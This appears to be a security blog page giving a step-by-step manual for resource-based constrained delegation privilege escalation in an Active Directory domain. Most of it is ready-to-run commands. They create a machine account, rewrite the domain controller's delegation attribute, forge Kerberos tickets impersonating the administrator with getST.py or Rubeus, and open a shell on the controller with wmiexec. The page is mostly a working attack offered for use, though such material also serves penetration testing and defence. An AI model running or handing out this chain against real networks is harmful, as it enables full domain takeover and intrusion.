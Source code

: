 [back](/)

### Resource-based Constrained Delegation

Each domain user, by default, has permission to add 10 computers to the domain. This fact very often helps when you have GenericAll rights, for example from a user group to a domain controller. Here is a small manual for elevating privileges in a domain.

![Image](/img/rbcd/1.png)

First of all lets get dome useful tools:

```
git clone https://github.com/Kevin-Robertson/Powermad
git clone https://github.com/SecureAuthCorp/impacket
git clone https://github.com/GhostPack/Rubeus
wget https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

Step-by-step privesc:

```
import-module .\Powermad.ps1
New-MachineAccount -MachineAccount JAKI2 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

import-module .\PowerView.ps1
$ComputerSid = Get-DomainComputer JAKI2 -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

getST.py jaki.local/JAKI2 -dc-ip dc.jaki.local -impersonate administrator -spn www/dc.jaki.local
```

![Image](/img/rbcd/2.png)


```
export KRB5CCNAME=administrator.ccache

wmiexec.py dc.jaki.local -k

OR

execute-assembly /tmp/Rubeus.exe s4u /user:JAKI2 /rc4:32ed87bdb5fdc5e9cba88547376818d4 /impersonateuser:administrator /msdsspn:cifs/dc.jaki.local /ptt
```

![Image](/img/rbcd/3.png)

```
cat /tmp/ticket_b64 | sed /^$/d | tr -d '\r\n' | sed -e "s/ //g" | base64 -d > /tmp/ticket

ticketConverter.py /tmp/ticket.kirbi admin.ccache 

export KRB5CCNAME=admin.ccache

wmiexec.py dc.jaki.local -k 
```

Useful links:

+ [PowerShellMafia](https://github.com/PowerShellMafia)
+ [Powermad](https://github.com/Kevin-Robertson/Powermad)
+ [Rubeus](https://github.com/GhostPack/Rubeus)
+ [Impacket](https://github.com/SecureAuthCorp/impacket)
+ [BloodHound](https://github.com/BloodHoundAD/BloodHound)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)